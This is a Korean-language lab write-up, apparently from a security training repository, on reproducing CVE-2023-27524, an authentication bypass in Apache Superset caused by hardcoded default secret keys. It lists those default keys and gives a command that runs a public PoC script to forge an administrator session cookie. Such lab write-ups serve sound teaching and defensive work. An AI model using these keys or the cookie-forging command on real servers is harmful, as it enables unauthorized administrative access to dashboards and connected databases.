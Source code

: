 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass
WHS_3기_31반_최준우

깃허브 주소 : https://github.com/choijunwoo03/kr-vulhub


## 요약
Apache Superset은 시각적, 직관적, 대화형으로 설계된 오픈소스 데이터 탐색 및 시각화 플랫폼입니다.

Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 포함되어 있습니다. 이 애플리케이션은 SECRET_KEY세션 쿠키 서명에 사용되는 기본값을 포함하고 있습니다. 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하여 관리자를 포함한 모든 사용자로 인증할 수 있습니다. 이를 통해 Superset 대시보드 및 연결된 데이터베이스에 대한 무단 접근이 허용되고, 잠재적으로 원격 코드 실행으로 이어질 수 있습니다.

CVE-2023-37941 과 결합될 경우 , 인증되지 않은 공격자는 인증을 우회한 후 역직렬화 취약점을 악용하여 원격 코드 실행을 달성할 수 있습니다. 이 문서는 CVE-2023-27524의 악용 사례만 설명합니다.
참고문헌:
https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/
https://github.com/horizon3ai/CVE-2023-27524

## 환경 구성 및 실행
Apache Superset 2.0.1 서버를 시작하려면 다음 명령을 실행하세요.
```bash 
docker compose up -d
 ```
서버가 시작되면 에서 Superset에 접속할 수 있습니다 http://your-ip:8088. 기본 로그인 정보는 admin/vulhub입니다.

## 취약점 재생산
Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다 SECRET_KEY.

• \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
• CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
• thisISaSECRET_1234(배포 템플릿)
• YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
• TEST_NON_DEV_SECRET(도커 컴포즈)

CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.
```bash #Install dependencies
pip install -r requirements.txt

#Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크래킹하려고 시도합니다. 성공하면 user_id=1(일반적으로 관리자 사용자)로 새 세션 쿠키를 위조하고 로그인을 검증합니다.

